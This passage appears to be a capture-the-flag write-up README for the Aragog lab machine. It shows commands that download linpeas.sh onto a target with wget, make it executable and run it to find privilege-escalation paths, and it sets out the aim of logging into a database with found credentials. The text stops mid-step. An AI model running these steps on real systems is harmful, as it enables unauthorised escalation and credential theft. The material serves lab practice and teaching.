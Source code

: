 # README: Privilege Escalation and Database Login

## Introduction
This guide provides instructions on how to use the `linpeas.sh` script to escalate user privileges and then log into a database using discovered credentials.

## Prerequisites
- Access to the target machine where you can run scripts.
- `linpeas.sh` script downloaded. You can get it from the [official GitHub repository](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

## Step-by-Step Guide

### 1. Running the `linpeas.sh` Script
First, you need to run the `linpeas.sh` script to gather information that may help in privilege escalation.

1. **Download linpeas.sh**:
   If not already on the target machine, download the `linpeas.sh` script:
   ```bash
   wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
   ```

2. **Make the Script Executable**:
   Change the permissions to make the script executable:
   ```bash
   chmod +x linpeas.sh
   ```

3. **Run linpeas.sh**:
   Execute the script to start the privilege escalation scan:
   ```bash
   ./linpeas.sh
   ```
![image9](https://github.com/kanhaiyasingh12/HARRY-POTTER-ARAGOG-1.0.2-/blob/main/Screenshot%202024-05-23%20063242.png)
### 2. Analyzing `linpeas.sh` Output
Review the output generated by `linpeas.sh` to find potential vulnerabilities or misconfigurations that can be exploited for privilege escalation. Pay special attention to sections related to: